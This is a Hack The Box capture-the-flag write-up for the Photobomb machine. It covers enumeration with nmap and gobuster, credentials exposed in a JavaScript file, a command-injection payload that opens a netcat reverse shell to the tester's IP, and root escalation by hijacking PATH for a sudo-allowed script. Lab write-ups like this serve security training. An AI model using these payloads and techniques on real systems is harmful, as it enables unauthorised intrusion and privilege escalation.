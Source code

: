 ```yaml
---
title: Hack the Box - Writeup (Photobomb)
description: This is a walkthrought for the Photobomb CTF on Hack The Box. It
  shows how easily we can exploit an Basic HTTP Authentication.
category: Writeup
author:
  name: Farouk Mokhtari
  email: fmokhtari@mail.ru
  website: https://fmokhtari.com
  btc: 1JJmuidSTRCugnBKH8H7bDxEmTtAAg4kyn
  usdt: TWi6yNRhxzkmgZhhoriDzWgvrSsxbdQCb8
  xmr: 87Asjp2TLCkKnw3PYsiKaTDwL8mNhiL7uV67ptCtVxqbSnaZfATQ6t4d1mfWnKu4kB4ieQHMApGhUdUY3h4RKBS2Kuc5RyW
tags:
  - hackthebox
  - ctfs
date: 2022-12-12T06:30:49.237Z
---
```


## Introduction

Introducing this user-friendly machine that showcases the simplicity of exploiting basic HTTP Authentication. With a straightforward setup and intuitive interface, this machine provides a hands-on demonstration of how easily one can exploit this type of authentication.

## Enumeration

We run our usual nmap scan with the flags `-sC`, `-sV`

```shell
nmap -sC -sV -v -oA 10.10.11.182-full.txt 10.10.11.182
```

- `-sV` We probe for open ports to determine services/version info.
- `-sC` Scan for available scripts to our vulnerabilities.

```shell
# Nmap 7.93 scan initiated Wed Dec  7 19:50:38 2022 as: nmap -sC -sV -v -oA 10.10.11.182-full.txt 10.10.11.182
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.096s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Photobomb
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 622B9ED3F0195B2D1811DF6F278518C2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  7 19:50:53 2022 -- 1 IP address (1 host up) scanned in 14.63 seconds
```

2 ports open are found :

- 22 (ssh)
- 80 (http) [photobomb.htb](http://photobomb.htb/)

From now on since we can't access our IP on our web browser. As usual we add the
domain to our **/etc/hosts** file. Since we know port 80 is open, we do an
enumeration for a list of directories.

### Directories Enumeration

`gobuster` is the right tool for directory discovery, but you can use other tools like `dirbuster`

```shell
gobuster dir -w wordlist.txt -u http://photobomb.htb/ -x php,txt,html
```

We find a url pointing to this path [http://photobomb.htb/printer](http://photobomb.htb/printer) that takes us to a login session.

The login session is a Basic HTTP Authentication. After checking the page source
code we find something interesting in there. We find in this file
[photobomb.js](http://photobomb.htb/photobomb.js) what it seems to be credentials for our session.

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (
    document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)
  ) {
    document
      .getElementsByClassName("creds")[0]
      .setAttribute("href", "http://pH0t0:b0Mb!@photobomb.htb/printer");
  }
}
window.onload = init;
```

The comment in the file says it all. apparently tech support keep forgetting
the password, let's figure out how to exploit this.

## Exploitation

This is an easy one to exploit. We use a vulnerability scanner like `Burp Suite` to find the possibility to encode a reverse shell in the POST request.
We can encode this reverse shell in the URL.

```shell
 curl -X POST -u pH0t0:b0Mb! "http://photobomb.htb/printer" -d "photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.78%201234%20%3E%2Ftmp%2Ff&dimensions=3000x2000"
```

By using `netcat` and listen on a specific port

```shell
nc -lnp 1234
```

- `-l` Listen for an incoming connection.
- `-n` Do not resolve domain names.
- `-p` Use specified port.

and with this, it gives us the access to the machine.

Now, we have a shell. So after getting the user flag let's try to elevate our
priviledges.

```shell
 sudo -l
```

This will list all the commands that the user can execute on the current machine.

```shell
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

## Priviledge Escalation

It means we can execute **/opt/cleanup.sh** with some environment variables as
root.

This is the content of the cleanup file.

```shell
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

Create a file named `find` with these two commands.

```shell
# First command is to create the file with a bash interactive session
echo '/bin/bash -i'>find
# Make it executable
chmod +x find
```

Run this command now.

```shell
 sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

`$PWD` is added to the `$PATH` environment variable in order to execute our
created file before the one installed in the linux machine.

You're root, now you know the drill.
